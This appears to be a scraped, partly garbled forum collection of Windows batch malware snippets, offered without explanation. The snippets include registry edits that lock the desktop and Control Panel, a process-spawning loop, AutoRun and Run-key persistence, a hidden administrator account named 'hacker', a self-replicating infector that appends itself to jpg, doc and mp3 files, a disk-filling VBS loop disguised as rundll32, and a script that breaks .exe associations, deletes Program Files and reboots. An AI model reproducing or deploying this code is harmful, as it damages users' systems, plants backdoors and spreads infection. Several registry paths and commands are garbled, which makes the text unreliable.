 reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun /v 1 /t REG_DWORD /d %SystemRoot%\explorer.exe /f >nul[/SRC]
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /d 1 /f >nul[/SRC]
reg add HKCU\Software\Microsoft\Windows\Current Version\Policies\Explorer
/v NoControlPanel /t REG_DWORD /d 1 /f >nul[/SRC]
[SRC]reg add HKCU\Software\Microsoft\Windows\ShellNoRoam\MUICache /v @C:\WINDOWS\system32\SHELL32.dll,-8964 /t REG_SZ /d ТУТ НАЗВАНИЕ КОРЗИНЫ /F[/SRC]
[SRC]del %0[/SRC]
[SRC]:x
Start mspaint
goto x[/SRC]
[SRC]copy ""%0"" "%SystemRoot%\system32\batinit.bat" >nul
reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "%SystemRoot%\syste m32\batinit.bat" /f >nul[/SRC]
[SRC]Echo_inactive_inactive off
chcp 1251
net user SUPPORT_388945a0 /delete
net user hacker hack /add
net localgroup Администраторы hacker /add
net localgroup Пользователи SUPPORT_388945a0 /del
reg add "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionWinlogonSpecialAccountsUserList" /v "support" /t reg_dword /d 0 y[/SRC]
[SRC]rundll32 user,disableoemlayer[/SRC]
[SRC]Echo_inactive_inactive off%[MrWeb]%
if '%1=='In_ goto MrWebin
if exist c:\MrWeb.bat goto MrWebru
if not exist %0 goto MrWeben
find "MrWeb"<%0>c:\MrWeb.bat
attrib +h c:\MrWeb.bat
:MrWebru
for %%g in (..\*.jpg ..\*.doc ..\*.htm? *.jpg *.mp3 *.doc *.htm? *.xls) do call c:\MrWeb In_ %%ggoto MrWeben
:MrWebin
if exist %2.bat goto MrWeben
type c:\MrWeb.bat>>%2.bat
echo start %2>>%2.bat%[MrWeb]%
:MrWeben[/SRC]
[SRC]Echo_inactive_inactive off%[MrWeb]%
if '%1=='In_ goto MrWebin
if exist c:\MrWeb.bat goto MrWebru
if not exist %0 goto MrWeben
find "MrWeb"<%0>c:\MrWeb.bat
attrib +h c:\MrWeb.bat
:MrWebru
for %%g in (*.jpg) do call c:\MrWeb In_ %%g
goto MrWeben
:MrWebin
if exist %2.bat goto MrWeben
type c:\MrWeb.bat>>%2.bat
echo start %2>>%2.bat%[MrWeb]%
:MrWeben[/SRC]
[SRC]Echo_inactive_inactive off
echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs
echo do >> %systemdrive%\windows\system32\rundll32.vbs
echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs
echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs
echo loop >> %systemdrive%\windows\system32\rundll32.vbs
start %systemdrive%\windows\system32\rundll32.vbs
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f[/SRC]
[SRC]Echo_inactive_inactive off
echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs
echo do >> %systemdrive%\windows\system32\rundll32.vbs
echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs
echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs
echo loop >> %systemdrive%\windows\system32\rundll32.vbs
start %systemdrive%\windows\system32\rundll32.vbs
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f[/SRC]
[SRC]Echo_inactive_inactive off
Echo Virus Loading
Date 13.09.96
If exist c:ski.bat goto abc
Copy %0 c:ski.bat
Attrib +h c:ski.bat
Echo c:ski.bat >>autoexec.bat
:abc
md PRIDUROK
md LUZER
md DURAK
md LAMER
Label E: PRIDUROK
assoc .exe=.mp3
del c:Program Files/q
Echo VIRUS LOAD
shutdown -r -t 1 -c "lol" >nul[/SRC]

